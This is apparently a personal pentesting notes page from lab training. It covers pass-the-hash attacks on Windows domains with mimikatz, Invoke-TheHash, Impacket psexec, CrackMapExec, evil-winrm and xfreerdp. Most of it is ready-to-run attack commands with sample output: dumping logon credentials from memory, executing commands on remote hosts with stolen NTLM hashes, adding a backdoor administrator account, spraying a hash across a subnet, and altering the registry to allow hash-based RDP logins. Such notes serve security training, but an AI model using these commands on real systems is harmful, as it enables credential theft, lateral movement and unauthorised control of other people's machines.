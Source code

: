 #windows/auth/pass-the-hash
#linux/auth/pass-the-hash
# Windows NTLM
Legacy SSO mechanism. We can use NTLM hash for PtH.

https://github.com/gentilkiwi/mimikatz

# PtH with mimikatz
```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```
* /user - The user name we want to impersonate.
* /rc4 or /NTLM - NTLM hash of the user's password.
* /domain - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
* /run - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

#### Extract hashes from an admin account of other users
```powershell
.\mimikatz.exe

privilege::debug
sekurlsa::logonpasswords
```
	
# PtH with Invoke-TheHash
https://github.com/Kevin-Robertson/Invoke-TheHash

## SMB
```powershell
PS c:\htb> cd C:\tools\Invoke-TheHash\
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

VERBOSE: [+] inlanefreight.htb\julio successfully authenticated on 172.16.1.10
VERBOSE: inlanefreight.htb\julio has Service Control Manager write privilege on 172.16.1.10
VERBOSE: Service EGDKNNLQVOLFHRQTQMAU created on 172.16.1.10
VERBOSE: [*] Trying to execute command on 172.16.1.10
[+] Command executed with service EGDKNNLQVOLFHRQTQMAU on 172.16.1.10
VERBOSE: Service EGDKNNLQVOLFHRQTQMAU deleted on 172.16.1.10
```
## WMI
```powershell
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e <base64 payload>"

[+] Command executed with process id 520 on DC01
```

# PtH with Impacket
```bash
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453

[*] Requesting shares on 10.129.201.126.....
[*] Found writable share ADMIN$
[*] Uploading file SLUBMRXK.exe
[*] Opening SVCManager on 10.129.201.126.....
[*] Creating service AdzX on 10.129.201.126.....
[*] Starting service AdzX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19044.1415]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
Another Impacket tools:
* impacket-wmiexec
* impacket-atexec
* impacket-smbexec

# PtH with #CrackMapExec
cme is a tool for password spraying on AD.

```bash
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453

SMB         172.16.1.10   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:.) (signing:True) (SMBv1:False)
SMB         172.16.1.10   445    DC01             [-] .\Administrator:30B3783CE2ABF1AF70F77D0660CF3453 STATUS_LOGON_FAILURE 
SMB         172.16.1.5    445    MS01             [*] Windows 10.0 Build 19041 x64 (name:MS01) (domain:.) (signing:False) (SMBv1:False)
SMB         172.16.1.5    445    MS01             [+] .\Administrator 30B3783CE2ABF1AF70F77D0660CF3453 (Pwn3d!)
```

If we want to perform the same actions but attempt to authenticate to each host in a subnet using the local administrator password hash, we could add --local-auth to our command

 If we see Pwn3d!, it means that the user is a local administrator on the target computer. We can use the option -x to execute commands.
### Command execution
```bash
crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami

SMB         10.129.201.126  445    MS01            [*] Windows 10 Enterprise 10240 x64 (name:MS01) (domain:.) (signing:False) (SMBv1:True)
SMB         10.129.201.126  445    MS01            [+] .\Administrator 30B3783CE2ABF1AF70F77D0660CF3453 (Pwn3d!)
SMB         10.129.201.126  445    MS01            [+] Executed command 
SMB         10.129.201.126  445    MS01            MS01\administrator
```

# PtH with evil-winrm
```bash
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
Note: When using a domain account, we need to include the domain name, for example: administrator@inlanefreight.htb

# PtH with RDP
Enable Restricted Admin Mode to Allow PtH:
```cmd
c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
Connect:
```bash
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

# UAC Limits Pass the Hash for Local Accounts
When the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well.

Note: There is one exception, if the registry key FilterAdministratorToken (disabled by default) is enabled (value 1), the RID 500 account (even if it is renamed) is enrolled in UAC protection. This means that remote PTH will fail against the machine when using that account.
